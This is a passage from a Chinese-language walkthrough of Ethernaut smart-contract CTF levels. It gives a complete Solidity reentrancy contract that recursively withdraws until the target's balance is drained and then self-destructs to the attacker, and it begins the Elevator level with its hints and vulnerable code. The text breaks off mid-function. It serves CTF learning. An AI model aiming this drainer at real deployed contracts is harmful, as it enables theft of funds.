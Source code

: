 在msg.sender.call会掉入合约的fallback中，只要再次调用withdraw，就会陷入循环，因此攻击合约如下

```solidity
pragma solidity 0.8;

interface IReentrancy {
    function donate (address) external payable;
    function withdraw(uint256) external;
}

contract Hack {
    IReentrancy private immutable target;

    constructor(address _target) {
        target = IReentrancy(_target);
    }

    // NOTE: attack cannot be called inside constructor
    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}
```

转账金额不能太小不然会不知道为什么报错

然后提交实例

# 11.Elevator

电梯不会让你达到大楼顶部, 对吧?

##### 这可能有帮助:

- 有的时候 solidity 不是很擅长保存 promises.
- 这个 `电梯` 期待被用在一个 `建筑` 里.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
```
